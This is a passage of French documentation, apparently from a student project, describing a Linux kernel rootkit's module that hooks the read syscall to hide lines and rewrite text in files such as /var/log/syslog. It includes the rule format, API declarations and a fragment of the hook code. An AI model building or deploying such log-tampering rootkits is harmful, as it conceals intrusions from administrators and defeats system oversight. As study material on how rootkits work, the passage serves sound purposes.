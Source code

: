 ### 4.3 🧬 alterate

La partie alterate du rootkit permet de modifier à la volée le contenu des fichiers lus par un processus, en se basant sur des règles définies pour chaque chemin. Dès qu’un appel à `read` est intercepté sur un file descriptor dont le chemin figure dans la liste des fichiers à altérer, on peut soit masquer une ligne précise, soit masquer toute ligne contenant un certain mot clef, ou soit remplacer une sous-chaîne par une autre dans chaque ligne retournée. Cette fonctionnalité est dynamique, mais doit être utilisée avec précaution, car il n’est pas toujours garanti que les éléments basés sur les numéros de ligne fonctionnent de manière fiable.

#### 4.3.1 Structures

Le cœur du mécanisme d’alteration repose sur la structure `alt_list`, définie et gérée dans `alterate_api.c`. Cette liste stocke les chemins des fichiers à surveiller, associée à un payload textuel codant la règle d’altération. Chaque élément de `alt_list` correspond à un enregistrement de configuration dont la clé (`value`) est le chemin absolu du fichier, et dont le payload est une chaîne au format suivant :
```bash
<path>|<flags>|<numero_de_ligne>:<mot_clef_a_masquer_lol>:<src_substr>:<dst_substr>
```
En effet, un élément de liste dans `ulist.c` a la structure suivante :
```bash
struct ulist_item {
    char *value;
    u32 flags;
    char *payload;
    struct list_head list;
};
```
Ainsi par exemple, si la ligne de configuration contient :
```bash
/var/log/syslog|0|10:claire:efrei:epita
```
On aura dans le fichier `/var/log/syslog` (avec un certes un flag de 0, mais que finalement nous n'utilisons jamais...) :
- La dixième ligne sera cachée.
- Toutes les lignes contenant le mot *claire* disparaîtront.
- Toutes les occurrences de *efrei* seront remplacées par *epita*.

Le fichier `alterate_api.h` expose par ailleurs l’API de gestion de cette configuration :
```c
int alterate_init(void);
void alterate_exit(void);
int alterate_add(const char *path, int hide_line, const char *hide_substr, const char *src, const char *dst);
int alterate_remove(const char *path);
int alterate_contains(const char __user *u_path);
int alterate_list_get(char *buf, size_t buf_size);
```
#### 4.3.2 Interception

Le fichier `alterate.c` implémente l’intégralité de la logique d’interception de `read` par la fonction `read_hook(const struct pt_regs *regs)`. La fonction de hook n’est ni très élégante ni optimisée, car le parsing répétitif de la liste introduit peut-être une complexité inutile.
```c
    char *dup = kstrdup(rule_payload, GFP_KERNEL);
    if (!dup)
        return ret;
    char *fld[4] = { NULL, NULL, NULL, NULL };
    int i;
    for (i = 0; i < 3; i++)
        fld[i] = strsep(&dup, ":");
    fld[3] = dup;

    int hide_line = simple_strtol(fld[0], NULL, 10);
    char *hide_substr = fld[1][0] ? fld[1] : NULL;
```